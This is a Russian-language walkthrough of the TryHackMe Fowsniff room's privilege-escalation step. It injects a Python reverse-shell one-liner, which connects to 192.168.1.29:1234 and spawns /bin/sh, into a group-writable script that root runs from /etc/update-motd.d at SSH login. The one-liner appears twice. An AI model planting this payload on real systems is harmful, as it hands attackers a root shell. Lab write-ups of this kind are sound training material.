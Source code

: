 ```bash
find / -group users -type f 2>/dev/null
```

![[Pasted image 20240321004617.png]]

Видим интересный файл `/opt/cube/cube.sh`. Проверив разрешения, мы видим, что он принадлежит `users`группе, и мы можем писать в этот файл. Мы просматриваем содержимое файла и обнаруживаем, что он содержит сообщение, которое приходит после входа в систему через SSH. Мы видим, что этот файл запускается пользователем root всякий раз, когда запускается файл «Сообщение дня» `/etc/update-motd.d/00-header`(всякий раз, когда мы подключаемся к машине по SSH). Поэтому давайте включим обратный шелл-код внутри файла. Мы можем использовать обратную оболочку Python. 

```bash
cd /opt/cube 
cat cube.sh
```

![[Pasted image 20240321004742.png]]

Еще TryHackMe нам дам даёт такую подсказку:

```
Если вы еще не узнали, этот файл запускается от имени пользователя root, когда пользователь подключается к компьютеру с помощью SSH. Мы знаем это, поскольку при первом подключении мы видим, что нам дали баннер (с fowsniff corp). Посмотрите  файл /etc/update-motd.d/. Если (после того, как мы поместили нашу обратную оболочку в файл куба) мы затем включим этот файл в файл motd.d, он будет запускаться от имени пользователя root, и мы получим обратную оболочку от имени пользователя root!
```

При просмотре папки **/etc/update-motd.d/** мы там обнаружили файл **00-header** у которого права root и который запускает cube.sh. Это значить если мы внедрим свой код в **cube.sh**, а **00-header** запустить его и наш код будет выполнен от имени root;) 

Мы открываем файл с помощью vim и добавляем в него однострочную обратную оболочку Python.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.29",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Пытаемся запустить его и обнаруживаем, что выдает ошибку «python: команда не найдена». Мы пытаемся найти Python и обнаруживаем, что он содержит python3.

![[Pasted image 20240321004914.png]]

Итак, мы вносим изменения в эксплойт, мы меняем однострочный код обратной оболочки Python. Заменяем python на python3.

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.29",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![[Pasted image 20240321005000.png]]
